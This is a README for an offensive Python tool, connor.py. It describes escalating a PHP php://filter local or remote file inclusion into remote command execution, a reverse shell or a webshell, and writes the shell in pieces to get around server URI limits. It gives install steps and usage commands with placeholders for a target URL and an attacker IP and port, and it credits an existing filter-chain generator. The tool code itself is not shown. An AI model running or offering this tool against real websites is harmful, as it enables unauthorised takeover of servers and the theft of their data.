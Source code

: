 
# connor.py

- Upgrades a source code disclosure attack via php://filter LFI/RFI into a reverse shell
- Avoids webservers URI size limitation by writting the reverse shell letter by letter
- Includes extra features for webshell & RCE

# Requirements
`pip3 install requests`

## Usage
`python3 connor.py help`

**RCE**

`python3 connor.py rce <TARGET-URL> <COMMAND>`

**Reverse Shell**

`python3 connor.py shell <TARGET-URL> <IP> <PORT>`

**Webshell** 

`python3 connor.py web <TARGET-URL> <IP> <PORT>`

**Format of TARGET-URL**

`http://site.com?param=`

*An update is coming for URLs with multiple params. For now harcode `url` in `execute_command`.*

## Credits
The RCE part (which is the foundation of this script) was made possible by adapting the code of synacktiv:

https://github.com/synacktiv/php_filter_chain_generator

## Contact
contact@break.me | https://break.me
